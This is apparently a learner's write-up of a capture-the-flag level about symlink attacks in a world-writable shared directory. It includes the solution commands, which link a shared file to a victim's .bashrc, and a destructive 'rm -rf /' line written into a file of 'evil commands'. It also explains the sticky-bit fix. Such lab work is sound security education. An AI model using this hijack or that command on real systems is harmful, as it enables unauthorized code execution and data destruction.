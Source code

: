 
Silly Chenanigans

4. Tricky Linking
    Okay, Zardus has wised up! No more sharing the home directory: despite the reduced convenience, Zardus has moved to sharing /tmp/collab. He's made that directory world-readable and has started a list of evil commands to remember!

    zardus@dojo:~$ mkdir /tmp/collab
    zardus@dojo:~$ chmod a+w /tmp/collab
    zardus@dojo:~$ echo "rm -rf /" > /tmp/collab/evil-commands.txt
    In this challenge, when you run /challenge/victim, Zardus will add cat /flag to that list of commands:

    hacker@dojo:~$ /challenge/victim

    Username: zardus
    Password: **********
    zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
    zardus@dojo:~$ exit
    logout

    hacker@dojo:~$
    Recall from the previous level that, having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file. Also remember from Comprehending Commands that files can link to other files. What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to? Chaos and shenanigans!

    You know the file to link to. Pull off the attack, and get /flag (which, for this level, Zardus can read again!).

    HINT: You'll need to run /challenge/victim twice: once to get cat /flag written to where you want, and once to trigger it!

    Is /tmp dangerous to use??? Despite the attack shown here, /tmp can be used safely. The directory is world-writable, but has a special permission bit set:

    hacker@dojo:~$ ls -ld /tmp
    drwxrwxrwt 29 root root 1056768 Jun  6 14:06 /tmp
    hacker@dojo:~$
    That t bit at the end is the sticky bit. The sticky bit means that the directory only allows the owners of files to rename or remove files in the directory. It's designed to prevent this exact attack! The problem in this challenge, of course, was that Zardus did not enable the sticky bit on /tmp/collab. This would have closed the hole in this specific case:

    zardus@dojo:~$ chmod +t /tmp/collab
    Of course, shared resources like world-writable directories are still dangerous. Much later, in the Race Conditions of the Green Belt material, you'll see many ways in which such resources can cause security issues!

    - my solution:
        hacker@shenanigans~tricky-linking:/home/zardus$ rm /tmp/collab/evil-commands.txt
        rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
        hacker@shenanigans~tricky-linking:/home/zardus$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
        hacker@shenanigans~tricky-linking:/home/zardus$ /challenge/victim
        Username: zardus
        Password: **********
        zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
        zardus@shenanigans~tricky-linking:~$ exit
        logout
        hacker@shenanigans~tricky-linking:/home/zardus$ cat /home/zardus/.bashrc
        this sets up a scary red shell prompt!
        PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '
